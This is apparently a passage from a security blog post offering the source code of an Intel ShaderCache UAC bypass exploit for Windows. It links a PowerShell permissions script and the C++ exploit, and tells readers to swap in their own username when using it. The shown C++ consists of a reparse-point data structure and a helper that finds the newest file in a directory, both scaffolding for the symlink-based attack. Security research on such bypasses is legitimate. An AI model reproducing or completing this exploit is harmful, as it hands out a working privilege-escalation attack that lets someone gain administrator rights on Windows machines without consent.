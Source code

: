 **Full Source Code below (obviously change my username in the .cpp code to your own when you use this: 😸**

[powershell permissions code](https://github.com/g3tsyst3m/CodefromBlog/blob/main/4-22-2025-Intel%20Shader%20Cache%20UAC%20Bypass/permissions.ps1)

[Intel ShaderCache UAC bypass code](https://github.com/g3tsyst3m/CodefromBlog/blob/main/4-22-2025-Intel%20Shader%20Cache%20UAC%20Bypass/intel_UAC_bypass.cpp)

```cpp

#include <windows.h>
#include <iostream>
#include <filesystem>
#include <fstream>
#include <string>
#include <chrono>

#pragma comment(lib, "user32.lib")
#define REPARSE_DATA_BUFFER_HEADER_SIZE   FIELD_OFFSET(REPARSE_DATA_BUFFER, GenericReparseBuffer)

typedef struct _REPARSE_DATA_BUFFER {
    DWORD  ReparseTag;
    WORD   ReparseDataLength;
    WORD   Reserved;
    union {
        struct {
            WORD   SubstituteNameOffset;
            WORD   SubstituteNameLength;
            WORD   PrintNameOffset;
            WORD   PrintNameLength;
            DWORD  Flags;
            WCHAR  PathBuffer[1];
        } SymbolicLinkReparseBuffer;
        struct {
            WORD   SubstituteNameOffset;
            WORD   SubstituteNameLength;
            WORD   PrintNameOffset;
            WORD   PrintNameLength;
            WCHAR  PathBuffer[1];
        } MountPointReparseBuffer;
        struct {
            BYTE   DataBuffer[1];
        } GenericReparseBuffer;
    };
} REPARSE_DATA_BUFFER, * PREPARSE_DATA_BUFFER;

std::wstring GetMostRecentFile(const std::wstring& directoryPath) {
    namespace fs = std::filesystem;

    std::wstring mostRecentFile;
    fs::file_time_type latestTime;

    for (const auto& entry : fs::directory_iterator(directoryPath)) {
        if (!entry.is_regular_file()) continue;

        auto ftime = entry.last_write_time();
        if (mostRecentFile.empty() || ftime > latestTime) {
            latestTime = ftime;
            mostRecentFile = entry.path().filename().wstring();
        }
    }

    return mostRecentFile;
}
```